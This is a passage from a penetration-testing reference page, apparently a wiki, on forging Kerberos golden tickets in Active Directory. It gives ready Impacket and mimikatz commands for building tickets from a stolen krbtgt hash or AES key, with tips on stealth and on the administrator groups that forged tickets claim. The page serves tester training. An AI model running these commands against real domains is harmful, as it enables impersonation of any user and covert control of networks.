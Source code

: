 In order to craft a golden ticket, testers need to find the krbtgt's RC4 key (i.e. NT hash) or AES key (128 or 256 bits). In most cases, this can only be achieved with domain admin privileges through a DCSync attack. Because of this, golden tickets only allow lateral movement and not privilege escalation.
!!! note 
    Microsoft now uses AES 256 bits by default. Using this encryption algorithm (instead of giving the NThash) will be stealthier.
=== "UNIX-like"
    There are Impacket scripts for each step of a golden ticket creation : retrieving the krbtgt, retrieving the domain SID, creating the golden ticket.
    ```bash
    # Find the domain SID
    lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

    # Create the golden ticket (with an RC4 key, i.e. NT hash)
    ticketer.py -nthash "$krbtgtNThash" -domain-sid "$domainSID" -domain "$DOMAIN" "randomuser"

    # Create the golden ticket (with an AES 128/256bits key)
    ticketer.py -aesKey "$krbtgtAESkey" -domain-sid "$domainSID" -domain "$DOMAIN" "randomuser"

    # Create the golden ticket (with an RC4 key, i.e. NT hash) with custom user/groups ids
    ticketer.py -nthash "$krbtgtNThash" -domain-sid "$domainSID" -domain "$DOMAIN" -user-id "$USERID" -groups "$GROUPID1,$GROUPID2,..." "randomuser"
    ```
=== "Windows"
    On Windows, mimikatz (C) can be used with `kerberos::golden` for this attack.
    ```bash
    # with an NT hash
    kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:randomuser /ptt

    # with an AES 128 key
    kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:randomuser /ptt

    # with an AES 256 key
    kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:randomuser /ptt
    ```
    For both mimikatz and Rubeus, the /ptt flag is used to automatically inject the ticket.
!!! note
    For Golden and Silver tickets, it's important to remember that, by default, ticketer and mimikatz forge tickets containing PACs that say the user belongs to some well-known administrators groups (i.e. group ids 513, 512, 520, 518, 519).
